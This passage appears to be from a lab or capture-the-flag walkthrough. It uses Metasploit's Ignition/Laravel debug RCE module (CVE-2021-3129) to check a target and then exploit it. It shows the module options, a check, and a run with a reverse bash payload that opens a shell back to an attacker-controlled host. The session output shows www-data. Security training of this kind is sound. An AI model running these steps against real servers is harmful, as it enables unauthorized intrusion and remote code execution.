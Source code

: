 ```text

Check supported:
  Yes

Basic options:
  Name       Current Setting              Required  Description
  ----       ---------------              --------  -----------
  LOGFILE                                 no        Laravel log file absolute path
  Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                                  yes       The target host(s), see https://github.com/rapid7/metasploit-f
                                                    ramework/wiki/Using-Metasploit
  RPORT      80                           yes       The target port (TCP)
  SSL        false                        no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /_ignition/execute-solution  yes       Ignition execute solution path
  VHOST                                   no        HTTP server virtual host

Payload information:

Description:
  Ignition before 2.5.2, as used in Laravel and other products, allows 
  unauthenticated remote attackers to execute arbitrary code because 
  of insecure usage of file_get_contents() and file_put_contents(). 
  This is exploitable on sites using debug mode with Laravel before 
  8.4.2.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2021-3129
  https://www.ambionics.io/blog/laravel-debug-rce


View the full module info with the info -d command.
```

Use Metasploit to verify if the application is vulnerable to this exploit. 

```text
msf6 > use multi/php/ignition_laravel_debug_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/php/ignition_laravel_debug_rce) > check rhost=10.10.41.251 HttpClientTimeout=20

[*] Checking component version to 10.10.41.251:80
[*] 10.10.41.251:80 - The target appears to be vulnerable.
```

Looks like the version of Laravel application is vulnerable to an RCE. Lets run to module to open a session.

```text
msf6 exploit(multi/php/ignition_laravel_debug_rce) > run rhost=10.10.41.251 lhost=10.2.4.35 HttpClientTimeout=20

[*] Started reverse TCP handler on 10.2.4.35:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 10.10.41.251:80
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (10.2.4.35:4444 -> 10.10.41.251:33158) at 2022-12-09 11:54:22 -0700
whoami

www-data
```

